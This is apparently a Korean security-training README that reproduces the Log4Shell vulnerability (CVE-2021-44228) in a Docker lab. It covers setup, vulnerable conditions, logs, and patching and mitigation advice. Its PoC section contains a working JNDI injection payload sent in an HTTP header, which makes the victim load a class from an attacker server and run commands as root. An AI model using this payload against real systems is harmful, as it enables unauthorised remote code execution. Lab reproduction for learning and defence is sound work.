


# Apache Log4j2 JNDI 원격 코드 실행 취약점 (Log4Shell) (CVE-2021-44228)

> 화이트햇 스쿨 4기 [손수민(@sumin0218)](https://github.com/sumin0218)

<br/>

## **목차**

1. [취약점 요약](#취약점-요약)
2. [환경 구성](#환경-구성)
3. [취약 조건](#취약-조건)
4. [재현 절차 및 PoC 코드](#재현-절차-및-poc-코드)
5. [실행 결과](#실행-결과)
6. [대응 방안](#대응-방안)
7. [참고자료](#참고자료)

<br/>

## **취약점 요약**

- **CVE 번호**: CVE-2021-44228
- **취약점 명칭**: Apache Log4j2 JNDI Remote Code Execution (Log4Shell)
- **개요**: Apache Log4j2(`2.0-beta9 ~ 2.14.1`) 는 로그 메시지 안에 `${...}` 형태의 Lookup 문법을 지원하는데, 그중 `${jndi:...}` 는 JNDI(Java Naming and Directory Interface)를 통해 원격 리소스를 조회하는 기능이다. 사용자 입력값이 검증 없이 로그로 남는 지점(HTTP 헤더 등)에 공격자가 `${jndi:ldap://공격자서버/exploit}` 형태의 문자열을 주입하면, Log4j2가 이를 문자열 그대로 기록하지 않고 JNDI lookup을 실제로 수행하여 원격 서버의 악성 클래스를 로드·실행한다. 인증 절차가 전혀 필요 없어 CVSS 10.0(Critical)으로 분류된다.

<br/>

## **환경 구성**

1. 아래 구조로 3개 컨테이너를 구성한다.

   ```
   CVE-2021-44228/
   ├── docker-compose.yml
   ├── victim/          # 취약 애플리케이션 (JDK 8u181 + Log4j 2.14.1)
   ├── ldap/            # marshalsec 기반 LDAP 서버
   └── attacker-http/   # 악성 클래스 서빙용 HTTP 서버
   ```

2. 취약 환경 컨테이너 구동 (해당 레포를 clone 했다면 여기서부터 터미널에 명령어를 입력하여 실행하면 됨)

   ```
   docker compose up --build
   ```

3. 서비스 정상 기동 여부 확인

   ```
   docker compose ps
   ```

   victim(8080), ldap-server(1389), attacker-http(8000) 세 컨테이너가 모두 `Up` 상태인지 확인한다.

<br/>

## **취약 조건**

1. **소프트웨어 버전**: Log4j `2.0-beta9 ~ 2.14.1` 를 사용 중인 환경. 본 환경은 `2.14.1`로 고정했다.

2. **JDK 버전 및 옵션**: JDK 8u191부터 `com.sun.jndi.ldap.object.trustURLCodebase` 기본값이 `false`로 바뀌어 원격 codebase로부터의 클래스 로딩이 기본 차단된다. 본 환경은 JDK 8u181 기반으로 구성했으나, 사용한 Docker 이미지(`openjdk:8u181-jdk`)가 Debian 리패키징 빌드라 해당 옵션이 이미 `false`로 막혀 있었다. 따라서 victim 컨테이너 실행 시 `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` 를 **명시적으로 지정**해야 재현된다 (`victim/Dockerfile`의 `CMD`에 반영됨).

3. **로그 레벨 설정**: Log4j2는 별도 설정(`log4j2.xml`) 없이는 `ERROR` 레벨만 콘솔에 출력한다. 본 앱은 `logger.info()`로 로그를 남기므로, `log4j2.xml`에서 Root 레벨을 `info`로 명시해야 결과 확인이 가능하다.

4. **기능 활성화**: 사용자 입력값(HTTP 헤더 `X-Api-Version`)을 검증 없이 그대로 로그에 남기는 코드 경로가 열려 있어야 한다. 본 환경은 `victim/VictimApp.java`의 요청 핸들러가 이에 해당한다.

<br/>

## **재현 절차 및 PoC 코드**

### **[Step 1] 정상 요청으로 앱 동작 확인**

```
curl.exe -H "X-Api-Version: test" http://localhost:8080
```

```
docker compose logs victim
```

```
INFO VictimApp - Received request with X-Api-Version: test
```



### **[Step 2] JNDI Lookup 페이로드 전송 (PoC)**

`X-Api-Version` 헤더에 JNDI lookup 페이로드를 담아 전송한다.

```
curl.exe -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/exploit}' http://localhost:8080
```

> PowerShell 사용 시 기본 `curl` 별칭이 `Invoke-WebRequest`이므로 `curl.exe`로 실행하고, `$`, `{`, `}` 이스케이프 문제를 피하기 위해 페이로드는 작은따옴표로 감싼다.

### **[Step 3] 최종 임의 명령어 실행 여부 결과 조회**

```
docker exec log4shell-victim ls /tmp
docker exec log4shell-victim cat /tmp/pwned_id
```

<br/>

## **실행 결과**

### **공격 경로 추적**

`ldap-server`가 JNDI lookup 요청을 받아 공격용 codebase(`attacker-http`)로 리다이렉트 응답한 것을 확인한다.

```
docker compose logs ldap-server
```

```
Listening on 0.0.0.0:1389
Send LDAP reference result for exploit redirecting to http://attacker-http:8000/Exploit.class
```

victim이 실제로 `attacker-http`에서 악성 클래스를 다운로드한 것을 확인한다.

```
docker compose logs attacker-http
```

```
172.18.0.4 - - [10/Jul/2026 22:03:37] "GET /Exploit.class HTTP/1.1" 200 -
```

두 로그를 함께 보면, JNDI lookup 요청이 ldap-server를 거쳐 attacker-http까지 실제로 도달했다는 공격 경로 전체를 추적할 수 있다.


### **RCE 성공 확인**

victim 컨테이너 내부에 공격 코드가 실행한 결과 파일이 생성되어 있다.

```
$ docker exec log4shell-victim ls /tmp
hsperfdata_root
pwned
pwned_id

$ docker exec log4shell-victim cat /tmp/pwned_id
uid=0(root) gid=0(root) groups=0(root)
```

`pwned_id` 안에 `uid=0(root)` 결과가 담겨 있어, victim 프로세스 권한(root) 그대로 임의 명령이 실행되었음을 확인했다.



**정리하면**, JNDI lookup을 통해 원격에서 가져온 클래스가 로드되는 순간 `static` 초기화 블록이 즉시 실행되며, 이 시점에 공격자가 삽입한 명령이 victim 프로세스 권한으로 그대로 수행된다. "로그를 남기는 기능"이 "원격 코드를 가져와 실행하는 기능"으로 오용되는 것이 이 취약점의 핵심이다.

<br/>

## **대응 방안**

1. **보안 패치 및 업그레이드**: 취약점이 패치된 Log4j `2.17.1` 이상 버전으로 즉시 업데이트를 권고한다.

2. **긴급 완화책 (업그레이드가 즉시 불가능한 경우)**:
   - JVM 옵션 `-Dlog4j2.formatMsgNoLookups=true` 추가 (`2.10.0` 이상에서 적용 가능)
   - 환경변수 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` 설정
   - classpath에서 `JndiLookup.class` 직접 제거: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`

3. **네트워크 레벨 방어**: 애플리케이션 서버의 아웃바운드 트래픽 중 불필요한 LDAP·RMI 포트(389, 1389, 1099 등)를 차단한다.

4. **보안 메커니즘 변경 내용**: 패치 버전(`2.15.0` 이상)부터는 JNDI lookup 기능 자체가 기본적으로 비활성화되도록 변경되었고, 이후 `2.17.1`에서 메시지 룩업 재귀 처리 등 관련 취약점(CVE-2021-45046 등)까지 함께 방어하도록 강화되었다.

<br/>

## **참고자료**

1. [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
2. [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
3. [marshalsec GitHub](https://github.com/mbechler/marshalsec)
